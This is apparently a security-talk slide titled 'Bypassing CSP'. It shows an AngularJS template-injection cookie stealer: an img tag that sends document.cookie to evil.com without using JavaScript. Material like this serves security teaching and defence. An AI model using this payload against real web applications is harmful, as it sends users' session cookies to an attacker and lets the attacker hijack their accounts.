

# Bypassing CSP

   Example: a cookie stealer in AngualrJS:

No JavaScript is required.

<img src="https://www.evil.com?cookie={{$global.document.cookie}}"/>
18
Burhan Otour